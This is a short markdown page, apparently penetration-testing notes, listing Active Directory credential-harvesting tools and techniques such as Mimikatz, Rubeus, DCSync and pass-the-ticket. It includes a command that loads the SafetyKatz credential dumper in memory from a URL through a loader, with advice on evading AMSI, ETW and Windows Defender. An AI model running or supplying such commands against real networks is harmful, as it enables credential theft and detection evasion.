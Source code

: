 ## Active Directory Credential Harvesting (Tools of the trade)
- Mimikatz
- SafetyKatz
- BetterSafetykatz
- Rubeus 
- FlangVik NetLoader (This is not credential harvesting tool, this rather works as a container to host a process to bypass AMSI and ETW which helps in avoiding detection of credentail harvesting tools) 

## Active Directory Credential Harvesting (Techniques)
- Credential Capture
    - `lsadump::secrets` Service Account clear-text passwords 
- Over-Pass The Hash
- Pass The Ticket
- DCSync
- Bypassing AMSI and ETW via FlangVik NetLoader
    - `Loader.exe -path http://127.0.0.1/SafetyKatz.exe sekurlsa::ekeys exit` (Assuming port forwarding is set, here SafetyKatz.exe is downloaded in memory from remote source, command are executed afterwards. Without port forwrding also works, but Windows Defender behavioural detection would block the download. Hence, it is advised to setup [port forwarding](AD_LateralMovement.md#port-forwarding-to-transfer-files) before)